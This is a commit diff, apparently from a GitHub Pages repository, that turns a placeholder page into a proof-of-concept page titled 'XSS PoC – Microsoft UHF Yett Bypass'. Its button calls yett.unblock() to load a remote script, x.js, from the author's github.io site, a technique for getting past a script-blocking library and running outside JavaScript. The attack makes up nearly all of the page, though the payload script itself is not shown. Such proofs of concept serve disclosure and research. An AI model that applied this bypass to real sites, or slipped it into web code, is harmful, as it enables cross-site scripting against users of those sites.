

Before and after one commit to cypherdavy/msxss-poc, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-640 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1 +1,20 @@
-<h1>msxss-poc active</h1>
+<!DOCTYPE html>
+<html lang="en">
+<head>
+  <meta charset="UTF-8">
+  <title>XSS PoC – Microsoft UHF Yett Bypass</title>
+</head>
+<body>
+  <h1>XSS PoC Loaded</h1>
+  <p>Ready for trigger...</p>
+
+  <!-- You can call the unblock manually here -->
+  <button onclick="trigger()">🔥 Trigger XSS</button>
+
+  <script>
+    function trigger() {
+      yett?.unblock("https://cypherdavy.github.io/msxss-poc/x.js");
+    }
+  </script>
+</body>
+</html>
```
